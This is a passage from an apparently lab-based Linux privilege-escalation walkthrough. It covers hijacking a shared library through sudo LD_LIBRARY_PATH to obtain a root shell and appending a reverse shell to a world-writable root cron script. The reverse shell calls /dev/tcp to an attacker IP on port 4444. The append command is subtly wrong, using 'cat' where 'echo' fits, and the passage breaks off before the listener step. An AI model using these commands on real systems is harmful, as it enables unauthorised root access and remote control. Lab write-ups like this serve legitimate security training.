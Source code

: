 ```diff
	setresuid(0,0,0);
	system("/bin/bash -p");
}
+void pcre_free(){}

+$ gcc -o /tmp/libpcre.so.3 -shared -fPIC tools/sudo/library_path.c 
 $ sudo LD_LIBRARY_PATH=/tmp apache2

 root@debian:/home/user# groups
 root

```
It doesn't work, so we edited the /home/user/tools/sudo/library_path.c as shown above, so that we satisfy the compiler and it then works!

### Task8: Cron Jobs - File Permissions

#### View the contents of the system-wide crontab:

```diff
$ cat /etc/crontab

  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.

  SHELL=/bin/sh
  PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

  # m h dom mon dow user	command
  17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
  25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  #
+ * * * * * root overwrite.sh                      ---------> 1st cronjob
+ * * * * * root /usr/local/bin/compress.sh        -----> 2nd cronjob
```
```
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 66 May 10 22:25 /usr/local/bin/overwrite.sh
```
Permissions are misconfigured....

We can manipulate the contents wihtin it to  privesc, but before that we have to know that what is the status(permission) of those 2 files.
```
$ locate overwrite.sh
/usr/local/bin/overwrite.sh
```
We got that overwrite.sh has **rw** perm for **others**
```
$ cat /usr/local/bin/overwrite.sh
#!/bin/bash

echo `date` > /tmp/useless

$ cat "bash -i >& /dev/tcp/{ip}/4444 0>&1" >> /usr/local/bin/overwrite.sh
```
#### Then set up a listener:
```
```